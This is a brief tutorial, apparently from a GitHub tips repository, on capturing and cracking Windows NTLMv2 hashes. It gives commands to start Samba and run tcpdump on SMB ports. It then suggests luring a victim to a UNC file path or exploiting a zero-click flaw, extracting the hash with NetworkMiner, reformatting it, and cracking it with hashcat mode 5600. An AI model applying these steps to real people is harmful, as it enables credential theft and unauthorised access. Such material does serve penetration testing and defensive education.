 Start the Samba server and capture packets.<br />
```
service smbd start
tcpdump -nn -vv -i eth0 -s 0 -w ntlm.cap port 445 or port 139
```

Lure the victim to access your file `\\smb.my.lab\files\test.txt` or exploit a zero-click vulnerability.

Type `<ctrl>-c` to stop tcpdump and stop the Samba service when you have collected enough packets.  Then open the ntlm.cap file in NetworkMiner.  Go to the "credentials" tab and select the NTLMv2 response packet.  Right-click then copy password, save it in a text file then right-click copy username.

![alt text](https://github.com/billchaison/Windows-Trix/blob/master/nm01.png)

Convert the NTLM hash that looks like this:<br />
`$NETNTLMv2$WIN10PRO$<hex>$<hex>$<hex>`

To something like this:<br />
`Administrator::WIN10PRO:<hex>:<hex>:<hex>`

Crack the converted hash string using hashcat mode 5600 to attempt to recover the plaintext password.

